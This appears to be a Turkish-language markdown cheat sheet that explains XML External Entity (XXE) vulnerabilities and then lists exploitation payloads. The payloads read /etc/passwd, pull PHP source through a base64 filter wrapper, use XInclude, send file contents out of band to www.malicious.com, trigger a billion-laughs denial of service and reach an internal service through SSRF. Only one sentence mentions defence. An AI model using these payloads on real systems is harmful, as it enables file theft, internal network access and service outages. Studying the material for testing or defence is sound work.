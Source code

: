 # XXE Nedir
XXE, uygulamanın kullanıcıdan aldığı XML verisini güvenli olmayan bir parser ile işlemesi sonucunda ortaya çıkan bir zafiyettir. Saldırgan ```<!DOCTYPE>``` ve ```<!ENTITY>``` tanımları aracılığıyla dış kaynaklara erişebilir, sunucu üzerindeki dosyaları okuyabilir, iç ağa istek gönderebilir ya da parser’ı kötüye kullanarak DoS saldırıları gerçekleştirebilir.

#  External Entity Nedir
XML işleminde, External Entity bir XML elementidir ve harici bir kaynağa (örneğin bir dosya veya URL) referans verebilir. Eğer güvenli şekilde işlenmezse, XXE açığı oluşur. Bu da saldırganların bu entity’leri kullanarak harici dosyalara erişmesine veya kötü amaçlı sunucu taraflı işlemler gerçekleştirmesine olanak tanır.

## XXE Payload ile External Entity Referansı Örneği
Bir XML payload içerisine XXE eklenerek external entity’ye referans verilebilir.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

Bu örnekte ```&xxe;```, sunucunun /etc/passwd dosyasına referans verir ve parser yanlış yapılandırıldıysa dosyanın içeriği yanıt olarak döner. Bu saldırılara karşı korunmak için, bu parser’ları güvenli şekilde kullanabilmek adına XXE (External Entities) özelliğini açıkça devre dışı bırakmamız gerekir.

# XXE Zafiyetini Sömürmek
## File Read
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

PHP wrapped:
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<name>Jean &xxe; Dupont</name>
```

Xinclude:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Out Of Band:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

## DoS
```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

## SSRF 
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```